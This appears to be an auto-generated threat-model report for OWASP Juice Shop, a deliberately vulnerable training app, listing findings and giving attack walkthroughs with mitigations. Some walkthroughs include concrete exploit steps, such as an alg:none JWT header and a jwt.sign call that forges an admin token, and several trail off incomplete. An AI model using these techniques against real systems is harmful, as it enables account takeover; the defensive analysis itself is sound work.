

**Findings** (full detail in [§8 Findings Register](#8-findings-register)): 🔴 [F-004](#f-004) — Hardcoded RSA Private Key Enables Arbitrary JWT Forgery — `lib/insecurity.ts:23` Hardcoded RSA private key · 🔴 [F-003](#f-003) — Insecure JWT Verification — `lib/insecurity.ts:54` Insecure JWT verification · 🔴 [F-013](#f-013) — Role Escalation — `lib/insecurity.ts:56` Role escalation via forged JWT · 🔴 [F-007](#f-007) — SQL Injection — `routes/login.ts:34` SQL injection in login route · 🔴 [F-008](#f-008) — SQL Injection — `routes/search.ts:23` SQL injection in search route · 🔴 [F-009](#f-009) — Server-Side Code Execution — `routes/userProfile.ts:62` Server-side eval on profile name · 🔴 [F-014](#f-014) — Server-side RCE — `routes/b2bOrder.ts:23` `vm.runInContext` sandbox escape · 🔴 [F-018](#f-018) — Stored XSS — `search-result.component.ts:132` Stored XSS product descriptions · 🟠 [F-001](#f-001) — JWT Session Token in localStorage — `login.component.ts:101` JWT stored in localStorage · 🔴 [F-006](#f-006) — Insecure Direct Object Reference — `routes/address.ts:11` Insecure direct object reference · 🔴 [F-012](#f-012) — Client-Side-Only Route Guard Bypassable — `app.guard.ts:18` Client-side-only route guard bypass · 🔴 [F-011](#f-011) — XML External Entity Expansion — `routes/fileUpload.ts:83` XXE via file upload · 🔴 [F-005](#f-005) — Unsalted MD5 password hashing — `lib/insecurity.ts:43` Unsalted `MD5` password hashing · 🔴 [F-010](#f-010) — Payment card numbers stored in plaintext — `models/card.ts:39` Payment cards stored in plaintext

---

## 1. System Overview

Probably the most modern and sophisticated insecure web application

**Repository:** https://github.com/juice-shop/juice-shop
**Runtime:** Node\.js 20 - 24

### Scope

This threat model covers 8 components of juice-shop: **Express Backend**, **Angular SPA Frontend**, **Data Layer (SQLite + MarsDB)**, **File Upload Service**, **B2B Order API**, **Authentication & Session Surface**, **CI/CD Pipeline**, **Real-time WebSocket Channel**.

All 8 modeled components received full STRIDE threat analysis.

**Out of scope:** third-party hosted dependencies, browser runtime, operating-system kernel, and the underlying network infrastructure.

---

## 2. Architecture Diagrams

### 2.1 System Context

Who interacts with juice-shop from the outside, and through which channels. Solid arrows show normal usage; dashed red arrows mark unauthenticated probing or exploit paths (C4 Level 1).



**Key takeaway:** Every actor in the context interacts with juice-shop through its external interface, so authentication and input validation at that edge govern the entire attack surface.

### 2.2 Container Architecture

How the system decomposes into deployable units. Each box is a separate runtime process or service container; arrows show synchronous request paths between them. Components with ≥3 Critical findings carry a red border, ≥2 High amber (C4 Level 2).



**Key takeaway:** The system decomposes into 1 client, 6 application and 1 data unit(s); Express Backend carries the most Critical findings (4) and bounds the worst-case blast radius.

### 2.3 Components


Who reaches each component, and through which trust zone. Four columns map external actors to the internal tiers (Client / Application / Data); solid green arrows show legitimate data flow, dashed red arrows mark intrusion vectors. The component table directly below holds source paths and linked threats per `C-NN`; per-finding evidence is in [§8 Findings Register](#8-findings-register).



**Key takeaway:** CI/CD Pipeline concentrates the most findings (16 of 68 across all components); the table below maps each component to its source paths and linked threats.

| ID | Name | Type | Key Paths | Linked Threats |
|----|----------------------|-----------|--------------------------------------|------------------------------------------------|
| <a id="c-01"></a><a id="express-backend"></a><span style="white-space:nowrap">C-01</span> | Express Backend | application | `server.ts`<br/>`app.ts`<br/>`routes/**`<br/>`lib/**`<br/>`models/**` | 🔴 [F-006](#f-006) — Insecure Direct Object Reference (`routes/address.ts:11`)<br/>🔴 [F-007](#f-007) — SQL Injection (`routes/login.ts:34`)<br/>🔴 [F-008](#f-008) — SQL Injection (`routes/search.ts:23`)<br/>🔴 [F-009](#f-009) — Server-Side Code Execution (`routes/userProfile.ts:62`)<br/>🟠 [F-027](#f-027) — Missing Security Event Audit Log (`server.ts:338`)<br/>🟠 [F-035](#f-035) — Unauthenticated Application Configuration Endpoint (`server.ts:605`)<br/>🟠 [F-036](#f-036) — Unauthenticated Directory Listing (`server.ts:277`)<br/>🟠 [F-043](#f-043) — No Rate Limiting on Login Endpoint (`server.ts:594`)<br/>🔴 [F-046](#f-046) — Sensitive Routes Registered Without Authentication Middleware (`server.ts:310`)<br/>🔴 [F-050](#f-050) — Missing Authorization on PUT `/api/Products/:id` (`server.ts:369`)<br/>🔴 [F-051](#f-051) — Mass Assignment Admin Role Injection (`server.ts:483`)<br/>🟡 [F-058](#f-058) — Unauthenticated B2B API attack surface disclosure (`server.ts:286`)<br/>🟡 [F-063](#f-063) — No Rate Limiting on Unauthenticated `/file-upload` Endpoint (`server.ts:309`) |
| <a id="c-02"></a><a id="angular-spa"></a><span style="white-space:nowrap">C-02</span> | Angular SPA Frontend | client | `frontend/src/**`<br/>`frontend/package.json` | 🟠 [F-001](#f-001) — JWT Session Token in localStorage (`login.component.ts:101`)<br/>🔴 [F-002](#f-002) — Derived Credential from OAuth Email Claim (`oauth.component.ts:30`)<br/>🔴 [F-012](#f-012) — Client-Side-Only Route Guard Bypassable (`app.guard.ts:18`)<br/>🟠 [F-015](#f-015) — OAuth Implicit Flow Token Exposure (`login.component.ts:134`)<br/>🔴 [F-018](#f-018) — Stored XSS (`search-result.component.ts:132`)<br/>🔴 [F-019](#f-019) — DOM XSS (`search-result.component.ts:170`)<br/>🟠 [F-028](#f-028) — Password Credentials in URL Query Parameters (`user.service.ts:54`)<br/>🔴 [F-054](#f-054) — XSS (`last-login-ip.component.ts:39`) |
| <a id="c-03"></a><a id="data-layer"></a><span style="white-space:nowrap">C-03</span> | Data Layer (SQLite + MarsDB) | data | `models/**`<br/>`data/datacache.ts`<br/>`data/datacreator.ts`<br/>`data/mongodb.ts`<br/>`data/staticData.ts` | 🔴 [F-005](#f-005) — Unsalted MD5 password hashing (`lib/insecurity.ts:43`)<br/>🔴 [F-010](#f-010) — Payment card numbers stored in plaintext (`models/card.ts:39`)<br/>🟠 [F-024](#f-024) — User role field writable without ownership check in model (`models/user.ts:80`)<br/>🟠 [F-034](#f-034) — SQLite database file stored unencrypted at rest (`models/index.ts:38`)<br/>🟠 [F-042](#f-042) — Unbounded in-memory MarsDB collections with no eviction (`data/mongodb.ts:9`)<br/>🟠 [F-049](#f-049) — Deterministic deluxeToken derivation enables unauthorized (`models/user.ts:101`)<br/>🟡 [F-057](#f-057) — Sequelize query logging disabled no data-layer audit trail (`models/index.ts:39`) |
| <a id="c-04"></a><a id="file-upload-service"></a><span style="white-space:nowrap">C-04</span> | File Upload Service | application | `routes/fileUpload.ts`<br/>`routes/profileImageUpload.ts`<br/>`routes/profileImageUrlUpload.ts`<br/>`routes/memory.ts` | 🔴 [F-011](#f-011) — XML External Entity Expansion (`routes/fileUpload.ts:83`)<br/>🟠 [F-025](#f-025) — Zip-Slip Path Traversal (`routes/fileUpload.ts:45`)<br/>🟠 [F-037](#f-037) — SSRF Response Body Exposed (`routes/profileImageUrlUpload.ts:29`)<br/>🟠 [F-038](#f-038) — SSRF (`routes/profileImageUrlUpload.ts:24`)<br/>🟠 [F-044](#f-044) — XML Billion-Laughs DoS (`routes/fileUpload.ts:83`)<br/>🔴 [F-052](#f-052) — Unsafe YAML Deserialization (`routes/fileUpload.ts:117`)<br/>🟢 [F-065](#f-065) — No Audit Logging for Unauthenticated File Uploads (`routes/fileUpload.ts:75`) |
| <a id="c-05"></a><a id="b2b-api"></a><span style="white-space:nowrap">C-05</span> | B2B Order API | application | `routes/b2bOrder.ts`<br/>`swagger.yml`<br/>`routes/order.ts` | 🔴 [F-014](#f-014) — Server-side RCE (`routes/b2bOrder.ts:23`)<br/>🟠 [F-041](#f-041) — Event-loop blocking DoS (`routes/b2bOrder.ts:23`)<br/>🟡 [F-055](#f-055) — No audit log of B2B order submissions or RCE attempt (`routes/b2bOrder.ts:16`)<br/>🟡 [F-059](#f-059) — Raw error propagation leaks safeEval execution details (`routes/b2bOrder.ts:33`) |
| <a id="c-06"></a><a id="auth"></a><span style="white-space:nowrap">C-06</span> | Authentication & Session Surface | application | `lib/insecurity.ts`<br/>`lib/startup/registerWebsocketEvents.ts`<br/>`routes/2fa.ts`<br/>`routes/authenticatedUsers.ts`<br/>`routes/login.ts` | 🔴 [F-003](#f-003) — Insecure JWT Verification (`lib/insecurity.ts:54`)<br/>🔴 [F-004](#f-004) — Hardcoded RSA Private Key Enables Arbitrary JWT Forgery (`lib/insecurity.ts:23`)<br/>🔴 [F-013](#f-013) — Role Escalation (`lib/insecurity.ts:56`)<br/>🟠 [F-016](#f-016) — Brute-Forceable Security Question Password Reset (`routes/resetPassword.ts:41`)<br/>🔴 [F-020](#f-020) — Stored XSS (`routes/saveLoginIp.ts:18`)<br/>🟠 [F-026](#f-026) — Missing Audit Logging for Authentication Events (`routes/login.ts:18`)<br/>🔴 [F-029](#f-029) — Hardcoded HMAC Key for Security Answer Verification (`lib/insecurity.ts:44`)<br/>🟠 [F-040](#f-040) — Unbounded In-Memory Token Map Enables Session Exhaustion (`lib/insecurity.ts:75`)<br/>🟠 [F-045](#f-045) — JWT Algorithm Bypass in 2FA Token Verification (`routes/2fa.ts:26`) |
| <a id="c-07"></a><a id="ci-cd-pipeline"></a><span style="white-space:nowrap">C-07</span> | CI/CD Pipeline | application | `.github/workflows/**`<br/>`.gitlab-ci.yml` | 🟠 [F-021](#f-021) — Npm install --unsafe-perm runs postinstall scripts as root in — Dockerfile:5<br/>🟠 [F-022](#f-022) — Unpinned third-party GitHub Action allows supply-chain code (`ci.yml:161`)<br/>🟠 [F-023](#f-023) — Absent on and no Dependabot leaves dependency tree unlocked (`package.json:88`)<br/>🟠 [F-030](#f-030) — GitHub Actions workflow missing top-level permissions block (`release.yml:1`)<br/>🟠 [F-031](#f-031) — Third-party GitHub Action not pinned to commit SHA (`codeql-analysis.yml:23`)<br/>🟠 [F-032](#f-032) — Docker base image not digest-pinned — Dockerfile:1<br/>🟠 [F-033](#f-033) — On absent dependency versions not locked (`package-lock.json:1`)<br/>🟠 [F-047](#f-047) — Heroku CLI installed (`ci.yml:326`)<br/>🟠 [F-048](#f-048) — Missing workflow-level permissions block grants GITHUB_TOKEN (`ci.yml:1`)<br/>🔴 [F-056](#f-056) — Container images published without signing or build provenance (`ci.yml:305`)<br/>🔴 [F-060](#f-060) — Container images not signed (`ci.yml:1`)<br/>🟡 [F-061](#f-061) — Untrusted npm Install/Postinstall Scripts Enabled — Dockerfile:5<br/>🟡 [F-062](#f-062) — Dependabot not configured for npm ecosystem (.github/dependabot.yml:1)<br/>🟢 [F-066](#f-066) — SOLUTIONS_WEBHOOK secret exposed to Cypress test runner (`ci.yml:223`)<br/>🟢 [F-067](#f-067) — Missing HEALTHCHECK instruction — Dockerfile:1<br/>🟢 [F-068](#f-068) — No concurrency group on push-triggered matrix jobs enables CI (`ci.yml:1`) |
| <a id="c-08"></a><a id="realtime-channel"></a><span style="white-space:nowrap">C-08</span> | Real-time WebSocket Channel | application | `lib/challengeUtils.ts`<br/>`lib/startup/registerWebsocketEvents.ts` | 🔴 [F-017](#f-017) — Missing Authentication on WebSocket Connection (`registerWebsocketEvents.ts:24`)<br/>🟠 [F-039](#f-039) — CTF Flag Broadcast to All Unauthenticated WebSocket (`lib/challengeUtils.ts:71`)<br/>🟠 [F-053](#f-053) — Client-Controlled Challenge Solver (`registerWebsocketEvents.ts:41`)<br/>🟡 [F-064](#f-064) — No Rate Limiting or Connection Cap on Socket\.IO (`registerWebsocketEvents.ts:20`) |
### 2.4 Technology Architecture

The technology stack the system is built on. Each box names the framework or runtime that fills that role; per-component findings live in the [§2.3](#23-components) component table above, and the full per-finding catalogue is in [§8 Findings Register](#8-findings-register).



**Key takeaway:** The stack spans 1 data-tier store(s) behind the application tier; injection and data-at-rest exposure track the data tier, detailed per finding in [§8 Findings Register](#8-findings-register).

> **Legend:** **red border** ≥ 3 Critical threats on the component · **amber border** ≥ 2 High threats

---

## 3. Attack Walkthroughs

This section walks through how the highest-risk findings are exploited - one short walkthrough per Critical, each with attack steps, a focused sequence diagram, and the primary mitigation. The cross-finding view (which weaknesses combine toward the worst-case goal, and where one fix severs several paths) is in the [Critical Attack Tree](#critical-attack-tree). Full per-finding context - severity rationale, assets, detection signals - is in the [§8 Findings Register](#8-findings-register) row for each finding.

### 3.1 Derived Credential from OAuth Email Claim

**Source:** 🔴 [F-002](#f-002) — `frontend/src/app/oauth/oauth.component.ts:30`

Severity **Critical** ([CWE-522](https://cwe.mitre.org/data/definitions/522.html)). STRIDE: Spoofing. See [§8 F-002](#f-002) for the full register row.

**Attack Steps**

1. When a user authenticates via Google OAuth, `oauth.component.ts:30-31` derives a password as `btoa(profile.email.split('').reverse().join(''))`.
2. This password is then used to register or log in the user via the standard `/rest/user/login` endpoint.
3. Since the derivation algorithm is deterministic and publicly visible in the SPA source code, any attacker who knows the target user's email address can compute this password and authenticate through the password login endpoint without going through OAuth at all.

**Sequence Diagram**



**Key takeaway:** Until ❶ [M-010](#m-010) (Remove derived-password pattern; enforce OAuth-only login pa) lands, 🔴 [F-002](#f-002) — Derived Credential from OAuth Email Claim — `oauth.component.ts:30` is exploitable at `frontend/src/app/oauth/oauth.component.ts:30` (Critical-severity, [CWE-522](https://cwe.mitre.org/data/definitions/522.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-010](#m-010) (Remove derived-password pattern; enforce OAuth-only login path with server-side token exchange)

### 3.2 Insecure JWT Verification

**Source:** 🔴 [F-003](#f-003) — `lib/insecurity.ts:54`

Severity **Critical** ([CWE-287](https://cwe.mitre.org/data/definitions/287.html)). STRIDE: Spoofing. See [§8 F-003](#f-003) for the full register row.

**Attack Steps**

1. `express-jwt@0.1.3` is configured at `lib/insecurity.ts:54` with only `{ secret: publicKey }` - no `algorithms` allowlist.
2. `jsonwebtoken@0.4.0` (`CVE-2020-15084`) accepts tokens with `alg: 'none'` and an empty signature when no algorithm constraint is provided.
3. An attacker crafts the header `{"alg":"none","typ":"JWT"}` and any payload (e.g.

**Sequence Diagram**


**Key takeaway:** Until ❶ [M-011](#m-011) (Harden the authentication flow) lands, 🔴 [F-003](#f-003) — Insecure JWT Verification — `lib/insecurity.ts:54` is exploitable at `lib/insecurity.ts:54` (Critical-severity, [CWE-287](https://cwe.mitre.org/data/definitions/287.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-011](#m-011) (Harden the authentication flow)

### 3.3 Hardcoded RSA Private Key Enables Arbitrary JWT Forgery

**Source:** 🔴 [F-004](#f-004) — `lib/insecurity.ts:23`

Severity **Critical** ([CWE-321](https://cwe.mitre.org/data/definitions/321.html)). STRIDE: Spoofing. See [§8 F-004](#f-004) for the full register row.

**Attack Steps**

1. The 1024-bit RSA private key is embedded as a string literal at `lib/insecurity.ts:23`.
2. Any actor with access to the repository (public GitHub repo) can extract it.
3. Because `security.authorize()` at line 56 signs all session JWTs with this key and `isAuthorized()` at line 54 verifies them with the corresponding public key, an attacker can call `jwt.sign({ data: { id: 1, role: 'admin', email: 'admin@juice-sh.op' } }, stolenPrivateKey, { algorithm: 'RS256' })` to mint a fully valid admin-role session token without providing credentials.

**Sequence Diagram**


**Key takeaway:** Until ❶ [M-012](#m-012) (Move cryptographic keys to a managed secret store) lands, 🔴 [F-004](#f-004) — Hardcoded RSA Private Key Enables Arbitrary JWT Forgery — `lib/insecurity.ts:23` is exploitable at `lib/insecurity.ts:23` (Critical-severity, [CWE-321](https://cwe.mitre.org/data/definitions/321.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-012](#m-012) (Move cryptographic keys to a managed secret store)

### 3.4 Unsalted MD5 password hashing

**Source:** 🔴 [F-005](#f-005) — `lib/insecurity.ts:43`

Severity **Critical** ([CWE-916](https://cwe.mitre.org/data/definitions/916.html)). STRIDE: Spoofing. See [§8 F-005](#f-005) for the full register row.

**Attack Steps**

1. All user passwords are hashed using `MD5` with no salt at `lib/insecurity.ts:43` (`crypto.createHash('md5').update(data).digest('hex')`), applied in the User model setter at `models/user.ts:77`.
2. `MD5` is a broken cryptographic primitive for password storage: rainbow-table attacks against `MD5` are pre-computed at scale (CrackStation, `hashes.org`).
3. Because there is no per-user salt, two users with the same password produce the identical hash, enabling both cross-user correlation and bulk cracking.

**Sequence Diagram**



**Key takeaway:** Until ❶ [M-013](#m-013) (Hash passwords with a strong, salted algorithm) lands, 🔴 [F-005](#f-005) — Unsalted MD5 password hashing — `lib/insecurity.ts:43` is exploitable at `lib/insecurity.ts:43` (Critical-severity, [CWE-916](https://cwe.mitre.org/data/definitions/916.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-013](#m-013) (Hash passwords with a strong, salted algorithm)

### 3.5 Insecure Direct Object Reference

**Source:** 🔴 [F-006](#f-006) — `routes/address.ts:11`

Severity **Critical** ([CWE-639](https://cwe.mitre.org/data/definitions/639.html)). STRIDE: Tampering. See [§8 F-006](#f-006) for the full register row.

**Attack Steps**

1. Server-side authorization MUST derive the resource owner from the authenticated session (`req.user` / `req.session` / `req.auth`), never from attacker-controlled request data.
2. Trusting `req.body.UserId` etc. enables horizontal privilege escalation across all authenticated tenants.
3. Send the crafted payload to the endpoint backed by `routes/address.ts:11`.

**Sequence Diagram**

